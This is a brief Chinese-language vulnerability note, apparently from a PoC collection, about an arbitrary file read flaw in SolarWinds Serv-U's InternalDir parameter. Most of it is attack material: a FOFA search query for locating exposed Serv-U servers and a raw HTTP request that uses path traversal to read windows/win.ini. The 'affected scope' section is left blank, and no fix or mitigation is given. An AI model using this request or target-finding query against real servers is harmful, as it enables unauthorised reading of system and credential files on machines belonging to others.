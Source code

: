 **fofa**

```
server="Serv-U"
```

**一、漏洞简述**

Serv-U是SolarWinds的全球品牌。其提供完整的可见性、控制和集中管理您的网络文件传输。Serv-U 的FTP服务器和MFT服务器软件支持多文件传输安全协议,帮助你保持符合PCI DSS、HIPAA、FISM、SOX等等的要求标准，你将永远不必担心暴露敏感数据和降低安全标准在云计算中。其接口InternalDir存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

*影响范围*

**二、漏洞检测poc**

```yaml
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.2 Safari/537.36


```

